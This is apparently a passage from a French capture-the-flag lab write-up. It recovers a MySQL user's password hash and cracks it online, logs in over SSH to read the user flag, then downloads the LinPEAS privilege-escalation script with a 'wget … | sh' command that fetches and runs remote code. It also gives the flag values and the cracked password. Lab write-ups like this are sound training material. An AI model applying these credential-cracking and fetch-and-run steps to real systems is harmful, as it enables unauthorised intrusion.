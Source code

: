Et là, faut lire entre les lignes. Mais pour résumer parce que je suis gentille :

- un user `eguillemot` est ajouté
    - authentification_string : `*B38E48ED65DF090D475F5F25E030D183BC140ECD`
    - plugin : `mysql_native_password`

En se renseignant, le plugin utilisé encode en md5 le mot de passe. Et il est vieux, donc facilement cassable. Une petite recherche internet sur [https://crackstation.net/](https://crackstation.net/) (merci Mathis) et on voit bien que le mot de passe est `esgi`.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/547f5a9d-c2db-4513-be3c-a91c81c135ca/2021-03-25-14-51-04.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/547f5a9d-c2db-4513-be3c-a91c81c135ca/2021-03-25-14-51-04.png)

### 2.2.3. Le flag user

Une fois connecté en SSH avec eguillemot, il suffit simplement de lister ses fichiers pour rapidement trouver le flag.

```bash
eguillemot@artemis:~$ ls
Desktop    Downloads         Music     Public     user.txt
Documents  examples.desktop  Pictures  Templates  Videos
eguillemot@artemis:~$ cat user.txt 
CEH{Wh4t_4_w0nd3rfUl_w3bs1t3}
```

> Flag user : `CEH{Wh4t_4_w0nd3rfUl_w3bs1t3}`

# 2.3. Le flag root

### 2.3.1. LinPEAS mon amour

LinPEAS est l'acronyme de **Linux Privilege Escalation Awesome Script** et oui, il est **AWESOME**

Petit parcours pour savoir comment s'en servir :

1. L'installer tu devras

```bash
eguillemot@artemis:~$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
--2021-03-25 12:11:50--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 326636 (319K) [text/plain]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1                 100%[==============================================>] 318.98K  --.-KB/s    in 0.02s   

2021-03-25 12:11:50 (18.1 MB/s) - ‘linpeas.sh.1’ saved [326636/326636]
```
